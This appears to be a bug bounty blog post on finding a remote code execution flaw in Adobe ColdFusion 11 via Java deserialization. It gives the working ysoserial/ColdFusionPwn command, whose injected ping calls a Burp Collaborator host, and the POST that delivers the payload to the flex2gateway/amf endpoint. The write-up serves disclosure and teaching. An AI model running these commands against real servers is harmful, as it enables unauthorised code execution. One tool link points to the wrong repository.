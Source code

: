 ```yaml
---
title: "Basic recon to RCE"
date: 2021-05-02T12:00:00+01:00
hero: rce_banner.png
description: Basic recon to RCE
menu:
  sidebar:
    name: Basic recon to RCE
    identifier: Basic recon to RCE
    weight: 4
---
```


Recently on a BugBounty program I came across my first RCE, discovered and exploited rather quickly on a solution with a vulnerability that I don't master at all : Java Deserialization

## Recon
Currently improving my recognition tool [AutoRecon](https://github.com/JoshuaMart/AutoRecon), originally intended to help me with subdomain enumeration, I also want to perform some recognition tasks that are quite annoying when you have to do it many times.

The scope in question is like `*.domain.tld`, after enumerating subdomains, I wanted to test new tools, in this case [Gau](https://github.com/lc/gau) which allows to retrieve URLs known through several sources. That's when I was asked to see a URL with the extension `.cfm`, which I don't know at all:

{{< img src="RCE_GAU.png" align="center" title="GAU recon">}}

A quick search will find that this extension corresponds to `ColdFusion Markup Language`

An access on the URL actually allowed me to confirm that it is indeed the Adobe ColdFusion 11 application that is used, but the design seemed quite old ... interesting.

## Search for known vulnerabilities
A quick search on ExploitDB allowed me to find an exploit:

{{< img src="RCE_ExploitDB.png" align="center" title="ExploitDB ColdFusion">}}

Unfortunately this one wasn't very detailed, after several researches I found an article that details the vulnerability and its exploitation [Exploiting Adobe Coldfusion](https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html).

To make a long story short, the exploit is possible through a Java deserialization on the `flex2gateway/amf` endpoint, after verification, it was available and a GET request returned a simple blank page.

## Exploitation
According to the article, exploitation therefore requires only two things:
- [Ysoserial](https://github.com/frohoff/ysoserial) for Java deserialization
- [ColdFusionPWn](https://github.com/frohoff/ysoserial) for exploitation

Then we can finally create our payload, in the following example, if the poc is successful, I will receive a ping on my burp collaborator, the output of the order is recorded in the file `poc.ser` :
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'ping {your_collaborator}.burpcollaborator.net' poc.ser`

So all that's left to do is to send it as a POST on the endpoint `flex2gateway/amf` :

`http post https://xyz.domain.tld/flex2gateway/amf Content-Type:application/x-amf < poc.ser`

And then I got the ping on my burp collaborator:

{{< img src="RCE_PoC.png" align="center" title="PoC RCE">}}

## Conclusion

This is my first RCE found on a private program, really interesting because it exploits a known vulnerability with known exploits, but rather than launching the first exploit I could get my hands on, I preferred to document myself and look for something that would give me the impression to have a better mastery of the exploit even if it was wasting my time.

In fact, I discovered the vulnerability late one night, before exploiting it only the next day because I didn't want to do anything harmful since it's production.

Nevertheless, [Gau](https://github.com/lc/gau) is really a must-have and if you don't count the time spent reading / understanding the vulnerability, the research and exploitation took me less than 30min.
